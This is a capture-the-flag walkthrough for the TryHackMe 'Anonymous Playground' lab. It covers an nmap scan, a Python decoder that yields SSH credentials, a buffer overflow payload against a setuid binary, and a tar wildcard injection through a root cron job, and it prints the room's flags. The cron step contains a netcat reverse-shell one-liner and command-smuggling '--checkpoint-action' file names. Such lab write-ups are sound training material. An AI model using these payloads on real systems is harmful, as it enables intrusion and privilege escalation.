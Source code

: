 # Anonymous Playground

Want to become part of Anonymous? They have a challenge for you. Can you get the flags and become an operative?

[Anonymous Playground](https://tryhackme.com/room/anonymousplayground)

- Network Enumeration
- Web Poking
- Cookie Manipulation
- Python Scripting (Decoding)
- Reverse Engineering
- Exploiting Crontab

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Prove Yourself

So, you've decided to sign up with Anonymous? Well, it won't be that easy. They've constructed a vulnerable CTF machine for
you to hack your way into and prove you have what it takes to become a member of Anonymous. Can you do it? Do you have
what it takes?

There's 3 flags on this machine. Two will be users, the other user will be the almighty root.

I have to credit Robin for his insane dedication to helping me with all of my RE and Binex questions. Without his patience,
I would have never been able to create this room the way I had imagined it. So thank you sir.

Also credit goes to Sq00ky for the super special idea found in the initial foothold stage (not going to give any
spoilers away!)

Please allow 3-5 minutes for the box to fully deploy once you hit the "Deploy" button.

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ sudo nmap -A -sS -sC -sV -O 10.10.149.68
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 18:10 CEST
Nmap scan report for 10.10.149.68
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/zYdHuAKjP
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proving Grounds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/20%OT=22%CT=1%CU=35745%PV=Y%DS=2%DC=T%G=Y%TM=5F8F0C
OS:04%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   35.49 ms 10.8.0.1
2   35.60 ms 10.10.149.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.98 seconds
```

[http://10.10.149.68/robots.txt](http://10.10.149.68/robots.txt)

```
User-agent: *
Disallow: /zYdHuAKjP
```

[http://10.10.149.68/zYdHuAKjP/](http://10.10.149.68/zYdHuAKjP/)

![](./2020-10-20_18-13.png)

![](./2020-10-20_18-14.png)

`hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN`

```py
def positions(str):
    list1 = []
    for i in str:
        list1.append((ord(i) & 31))

    res = []
    for ele in range(0, len(list1), 2):
        res.append((list1[ele] + list1[ele + 1]) % 26)


    for i in range(len(res)):
        print(chr(res[i] + 64).lower(), end=" ")

str1 = "hEzAdCfHzA"
positions(str1)
print("::", end=" ")
str2 = "hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN"
positions(str2)
```

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ python3 script.py
m a g n a :: m a g n a i s a n e l e p h a n t
```

`magna::magnaisanelephant`

```
magna@anonymous-playground:~$ ls -la
total 64
drwxr-xr-x 7 magna  magna  4096 Jul 10 02:17 .
drwxr-xr-x 5 root   root   4096 Jul  4 19:25 ..
lrwxrwxrwx 1 root   root      9 Jul  4 19:42 .bash_history -> /dev/null
-rw-r--r-- 1 magna  magna   220 Jul  4 16:47 .bash_logout
-rw-r--r-- 1 magna  magna  3771 Jul  4 16:47 .bashrc
drwx------ 2 magna  magna  4096 Jul  4 20:49 .cache
drwxr-xr-x 3 magna  magna  4096 Jul  7 01:04 .config
-r-------- 1 magna  magna    33 Jul  4 19:44 flag.txt
drwx------ 3 magna  magna  4096 Jul  4 20:49 .gnupg
-rwsr-xr-x 1 root   root   8528 Jul 10 01:47 hacktheworld
drwxrwxr-x 3 magna  magna  4096 Jul  4 20:47 .local
-rw-r--r-- 1 spooky spooky  324 Jul  6 21:24 note_from_spooky.txt
-rw-r--r-- 1 magna  magna   807 Jul  4 16:47 .profile
drwx------ 2 magna  magna  4096 Jul  4 20:55 .ssh
-rw------- 1 magna  magna   817 Jul  7 01:52 .viminfo
magna@anonymous-playground:~$ cat flag.txt
9184177ecaa83073cbbf36f1414cc029
```

```
magna@anonymous-playground:~$ cat note_from_spooky.txt
Hey Magna,

Check out this binary I made!  I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development.  I think this is a really good start.  See if you can break it!

P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!

Best,
Spooky
```

```
magna@anonymous-playground:~$ (python -c 'print "A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00"' ; cat) | ./hacktheworld
Who do you want to hack?
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
python -c 'import pty; pty.spawn("/bin/bash")'
spooky@anonymous-playground:/home/spooky$ cat flag.txt
cat flag.txt
69ee352fb139c9d0699f6f399b63d9d7
```

```
spooky@anonymous-playground:/home/spooky$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

```
spooky@anonymous-playground:/home/spooky$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh shell.sh"
 shell.sh""--checkpoint-action=exec=sh
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$
```

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.149.68] 41480
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt
# cat flag.txt
bc55a426e98deb673beabda50f24ce66
```

1. User 1 Flag

`9184177ecaa83073cbbf36f1414cc029`

2. User 2 Flag

`69ee352fb139c9d0699f6f399b63d9d7`

3. Root Flag

`bc55a426e98deb673beabda50f24ce66`

